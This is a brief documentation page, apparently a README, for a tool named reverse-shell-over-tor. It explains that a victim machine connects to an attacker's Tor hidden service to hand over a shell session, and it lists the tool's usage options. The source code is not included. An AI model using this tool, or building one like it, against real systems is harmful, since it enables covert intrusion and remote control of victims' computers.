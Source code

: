 ```yaml
---
description: The victim connects to a Hidden Service hosted by the attacker.
---
```


# reverse-shell-over-tor

This tool allows the **victim to connect to the Hidden Service** of the attacker. If the attacker starts a netcat handler, it will give him a **shell session**.

Some parameters need to be set:

```text
$ ./reverse-shell-over-tor -h
Usage of reverse-shell-over-tor:

  -listener string
        Listener address. Format: <ONION_ADDR>:<PORT>
  -reverse-shell-program string
        Program to execute on reverse-shell (default "/bin/sh")
  -timeout int
        Timeout in seconds for Tor setup (default 180)
```

